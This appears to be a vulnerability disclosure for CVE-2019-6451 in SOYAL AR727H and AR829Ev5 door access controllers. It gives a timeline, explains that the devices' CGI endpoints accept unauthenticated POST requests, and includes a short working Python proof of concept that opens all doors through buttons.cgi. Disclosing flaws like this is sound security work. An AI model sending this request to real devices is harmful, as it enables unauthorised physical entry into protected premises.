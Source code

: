 # CVE-2019-6451

## Timeline

- January 15, 2019 reported to SOAYL
- January 15, 2019 arranged meeting time for further discussions
- January 16, 2019 CVE assigned

## Affected Products

- SOYAL-AR727H
- SOYAL-AR829Ev5

## Technical Details

On thoses devices, all CGI programs allow unauthenticated POST access.

if you know the proper parameters and format, anyone can make it work

like open the door or insert new account on the device

![](https://github.com/cvereveal/CVEs/blob/master/CVE-2019-6451/pics/soyal_direct_control.png)

In the `Direct Control` tab, you can control the door directly.

replay with Burpsuite or send it by python code below

```python
import requests

response = requests.post('http://IP/buttons.cgi', data={'btn_Node': '255',
    'btnOpenAllPulse': '+Action+',
    'btn_nameDI0': 'DI0',
    'btn_nameDI1': 'DI1',
    'btn_nameDI2': 'DI2',
    'btn_nameDI3': 'DI3',
    'btn_nameDO0': 'RelayOutput0',
    'delayDO0':'0',
    'btn_nameDO1': 'DO1',
    'delayDO1': '0',
    'btn_nameDO2': 'DO2',
    'delayDO2': '0',
    'btn_nameDO3': 'DO3',
    'delayDO3': '0'})
```

***OPEN SESAME !!!***

![](https://github.com/cvereveal/CVEs/blob/master/CVE-2019-6451/pics/door_open.png)

## Discoverer

- [National Center for Cyber Security Technology](https://www.nccst.nat.gov.tw/)
